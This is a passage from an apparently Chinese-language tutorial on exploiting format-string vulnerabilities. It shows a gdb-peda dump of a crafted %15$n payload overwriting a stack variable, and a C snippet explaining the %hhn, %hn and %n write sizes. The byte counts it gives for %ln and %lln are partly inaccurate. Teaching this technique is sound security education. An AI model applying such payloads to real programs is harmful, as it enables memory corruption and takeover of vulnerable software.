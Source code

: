 ```text
ESI: 0xf7f96e68 --> 0x1bad90
EDI: 0x0
EBP: 0xffffd5f8 --> 0x0
ESP: 0xffffd530 --> 0xffffd564 ("AA%15$nA8\325\377\377")
EIP: 0x8048520 (<main+138>:     add    esp,0x20)
EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x8048514 <main+126>:        lea    eax,[ebp-0x94]
   0x804851a <main+132>:        push   eax
   0x804851b <main+133>:        call   0x8048350 <printf@plt>
=> 0x8048520 <main+138>:        add    esp,0x20
   0x8048523 <main+141>:        sub    esp,0xc
   0x8048526 <main+144>:        push   0xa
   0x8048528 <main+146>:        call   0x8048370 <putchar@plt>
   0x804852d <main+151>:        add    esp,0x10
[------------------------------------stack-------------------------------------]
0000| 0xffffd530 --> 0xffffd564 ("AA%15$nA8\325\377\377")
0004| 0xffffd534 --> 0x1
0008| 0xffffd538 --> 0x2
0012| 0xffffd53c --> 0xffffffff
0016| 0xffffd540 --> 0xffffd55a ("ABCD")
0020| 0xffffd544 --> 0xffffd564 ("AA%15$nA8\325\377\377")
0024| 0xffffd548 --> 0x80481fc --> 0x38 ('8')
0028| 0xffffd54c --> 0x80484b0 (<main+26>:      add    ebx,0x1b50)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0x08048520 in main ()
gdb-peda$ x/20x $esp
0xffffd530:     0xffffd564      0x00000001      0x00000002      0xffffffff
0xffffd540:     0xffffd55a      0xffffd564      0x080481fc      0x080484b0
0xffffd550:     0xf7ffda54      0x00000001      0x424135d0      0x00004443
0xffffd560:     0x00000000      0x31254141      0x416e2435      0xffffd538
0xffffd570:     0xffffd500      0x00000001      0x000000c2      0xf7e70240
```

对比 `printf()` 函数执行前后的输出，可以看到我们成功地给 `arg2` 赋值了 `0x00000002`。

说完了数字小于 4 时的覆盖，接下来说说大数字的覆盖。前面的方法教我们直接输入一个地址的十进制就可以进行赋值，可是，这样占用的内存空间太大，往往会覆盖掉其他重要的地址而产生错误。其实我们可以通过长度修饰符来更改写入的值的大小：

```c
char c;
short s;
int i;
long l;
long long ll;

printf("%s %hhn\n", str, &c);       // 写入单字节
printf("%s %hn\n", str, &s);        // 写入双字节
printf("%s %n\n", str, &i);         // 写入4字节
printf("%s %ln\n", str, &l);        // 写入8字节
printf("%s %lln\n", str, &ll);      // 写入16字节
```
